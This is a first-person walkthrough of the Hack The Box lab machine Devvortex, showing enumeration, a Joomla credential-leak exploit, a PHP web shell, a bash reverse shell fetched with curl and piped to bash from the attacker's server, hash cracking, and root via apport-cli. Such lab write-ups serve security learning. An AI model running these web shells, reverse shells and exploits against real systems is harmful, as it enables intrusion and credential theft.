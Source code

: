 ### Initial Port Scan and Web Enumeration

I begin my attack on Devvortex with an Nmap scan to identify open ports and running services. This is the first step in any penetration test, as it helps uncover entry points into the system.

```
nmap 10.10.11.242 -p- -v -T4 -sV
```

Nmap reveals two open ports:

- **80 (HTTP)**: The web server is active, suggesting the presence of a web application.
- **22 (SSH)**: The Secure Shell service is active, which I may exploit later after gathering credentials.

I begin exploring the web service by navigating to http://10.10.11.242. While investigating, I spot an email address at the bottom of the page that reveals the domain name devvortex.htb, which I add to /etc/hosts to map it to the IP address.

Next, I use **FFUF** (Fuzz Faster U Fool), a powerful fuzzer, to brute-force subdomains that might be hidden within the site's infrastructure.

```
ffuf -u http://devvortex.htb/ -H 'Host: FUZZ.devvortex.htb' -w /usr/share/wordlists/subdomains/n0kovo_subdomains/n0kovo_subdomains_small.txt -fc 302
```

The subdomain I found from the previous command, `dev.devvortex.htb`, doesn't have much to offer visually, so I dive deeper.

```
ffuf -u http://dev.devvortex.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -e ".html,.php,.txt,.do"
```

I find a `README.txt`, which mentions Joomla! CMS. This discovery prompts me to investigate any potential vulnerabilities in Joomla.

### Exploiting Joomla (CVE-2023-23752)

Joomla! CMS has a known vulnerability, [CVE-2023-23752](https://vulncheck.com/blog/joomla-for-rce), affecting versions 4.0.0 - 4.2.7. This flaw allows attackers to bypass authentication and leak sensitive information, such as database credentials. After a quick search, I find a [ready-to-use exploit on GitHub](https://github.com/Acceis/exploit-CVE-2023-23752).

I clone the repository and make the exploit script executable:

```
gh repo clone Acceis/exploit-CVE-2023-23752
```

```
chmod +x ./exploit-CVE-2023-23752
```

Attempting to run the script throws an error due to missing dependencies. As the documentation states, I install the required Ruby gems:

```
gem install httpx docopt paint
```

Once the dependencies are installed, I successfully run the exploit:

```
./exploit.rb http://dev.devvortex.htb
```

The script returns the following sensitive database information:

```
Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4nth.................
DB name: joomla
DB prefix: sd4fg_
```

### Remote Code Execution and Reverse Shell

Now that I have a username and password, I check back in on ffuf to see an `/administrator` directory, which which turns out to be a Joomla admin panel. Using the credentials from the Joomla database, I log in as `lewis`. The [VulnCheck article describing CVE-2023-23752](https://vulncheck.com/blog/joomla-for-rce) outlines a method for gaining remote code execution (RCE) by editing templates in the Joomla CMS. I navigate to `System > Administrator Templates > Atum > error.php` and insert the following PHP code:

```
php system($_GET["cmd"]);
```

This code allows me to execute arbitrary commands on the server. Now I will try to establish a reverse shell to maintain persistence and explore the system further.

I prepare a bash reverse shell script:

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.8/4444 0>&1
```

I host the reverse shell script using a Python HTTP server and set up a netcat listener on port 1337 to catch the shell:

```
nc -nvlp 1337
```

```
python3 -m http.server 8000
```

Next, I use `curl` to download and execute the reverse shell:

```
http://dev.devvortex.htb/administrator/templates/atum/error.php?cmd=curl%2010.10.14.44:8000/shell.sh|bash
```

### Privilege Escalation: Database and User Hashes

With the reverse shell established, I now have remote access to the server as the `www-data` user. From my reverse shell, I explore potential privilege escalation paths. First, I retrieve **pspy** and linpeas to automate some of the data gathering:

```
wget http://10.10.14.44:8000/pspy64
```

```
wget http://10.10.14.44:8000/linpeas.sh
```

Linpeas detects a MySQL service running, and another user named `logan` executing processes as **root**. With the Joomla database credentials, I log into the MySQL instance:

```
mysql -u lewis -p
```

I dump the Joomla user table and find `logan`’s hashed password:

```
SHOW databases;
USE joomla;
SHOW tables;
SELECT * FROM sd4fg_users;
```

I extract the hash and crack it using hashcat on my host system:

```
./hashcat "Z:\HTB\VirtualBox VMs\Kali\Share\hashes.txt" -m 3200 --opencl-device-types=1,2 Z:\HTB\Wordlists\rockyou.txt -r rules/best64.rule 
```

I crack the hash in no time. I then try it on the SSH port I found with Nmap earlier. 

```
ssh logan@10.10.11.242
```

### Root Access: Apport-cli (CVE-2023-1326)

In `linpeas` I saw that this user was running processes as root, so I quickly check what I have sudo privileges for. 

```
sudo -l
```

`Logan` has full sudo privileges over apport-cli, a crash report utility known to be vulnerable to [CVE-2023-1326](https://nvd.nist.gov/vuln/detail/CVE-2023-1326), which allows privilege escalation via `less`. To pull off this exploit, I utilized a [PoC I found on GitHub](https://github.com/diego-tella/CVE-2023-1326-PoC). 

```
sudo apport-cli -f ./test.crash
```

I follow the menu options:

1. Choose the second option (`2`).
2. Select the first option (`1`).
3. Enter `V` to view the report.

Now, I can exploit the use of `less` to gain a root shell:

```
!/bin/bash
```

Finally, I  navigate to `/root` and retrieve the root flag.